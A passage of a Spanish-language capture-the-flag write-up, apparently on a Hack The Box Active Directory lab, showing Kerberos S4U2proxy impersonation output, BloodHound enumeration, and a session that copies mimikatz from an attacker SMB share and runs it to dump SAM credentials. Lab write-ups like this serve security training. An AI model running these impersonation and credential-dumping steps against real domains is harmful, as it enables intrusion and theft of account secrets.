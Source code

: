 ```powershell
      ff+LETnQmU8yTRUOAET3Epgn0CEJpI+Dr76I9QQAE8qrEEOtyHMim2e8rfSdFEC7dXst6xjpefoz4viB
      Do/BH5FfiztCnhsWtXdy3yS/Rr2oHf5J0mq+gAkU/suy+w8tbLezApGRxhd4NpYF3gMFWmFcCmSQ4dcV
      fxKS79k4thVZJSK21DMxNWdfnKjElb29/kCBEZClCQ58mArqSxSyNeiejvwF6IjK9W2cfPriuP9iNd2e
      8o47m59oiB8G9gg2yv1vnrZIpzVsHO0Q4n1z5aN+RDpAPz4CSIGWZjC8lYAfkyN/XF+L1cvs2lp05zje
      EH4F7OmBMgD1cDAZ38P4Jzw7TxWMFQzi0qOYyvOTdO6q6H82J55VK4yF26DI72CeqTzr97zrwj63b5Km
      FiOQha5eEsGzSmJnevaHHdYbkU5uYFK7J+HVxyAvhNA6U8rIjX6oeX1WzCeC+bdFOK+Okx9OSWZfKuO6
      G24PFbRVbv99KkBnKoXsK5cas/Ct52gTgP6MznGDEqgyRvH3dJ7hJMyXNC9KF0rDN8wdSWYwC34yWpdE
      MaGFSmP6CUS4P++hCs06QHLUydAE+HjK64R9ZuZ1h1xW+7GylCvS78BHc9cxbcmPNtywjoAzlkSzl/pG
      VcpS4c60/ySGwfHLpAwgkpY26KR6FwrvHhdkHmO/JncoOoNHhOf+bu7JtKEJzzgmCcXOY9+BJKYJS4uj
      gdAwgc2gAwIBAKKBxQSBwn2BvzCBvKCBuTCBtjCBs6AbMBmgAwIBF6ESBBA1WBJo9P8YFQszZ3QSNxpM
      oQsbCUhUQi5MT0NBTKIaMBigAwIBCqERMA8bDWFkbWluaXN0cmF0b3KjBwMFAAChAAClERgPMjAyMzA0
      MjkwMzE0MTJaphEYDzIwMjMwNDI5MTMxNDEyWqcRGA8yMDIzMDUwNjAzMTQxMlqoCxsJSFRCLkxPQ0FM
      qRwwGqADAgEBoRMwERsPYXR0YWNrZXJzeXN0ZW0k

[*] Impersonating user 'administrator' to target SPN 'http/web.htb.local'
[*] Building S4U2proxy request for service: 'http/web.htb.local'
[*] Using domain controller: dc1.htb.local (192.168.3.203)
[*] Sending S4U2proxy request to domain controller 192.168.3.203:88

[X] KRB-ERROR (13) : KDC_ERR_BADOPTION

PS C:\Users\Administrator\Documents>
```

Enumerando en BloodHound, nos encontramos con un grupo llamado Operations, al cual solo pertenece el usuario Lee. En este grupo, posiblemente haya algún privilegio especial. Al intentar crear nuevamente el ticket, pero esta vez suplantando al usuario Lee, logramos generar un ticket e importarlo con éxito, lo que nos permitirá acceder a web.htb.local.

![BloodHound](/assets/images/AD1.png)


[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
[dev.htb.local]: PS C:\Users\Administrator\Documents>
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit
[dev.htb.local]: PS C:\Users\Administrator\Documents>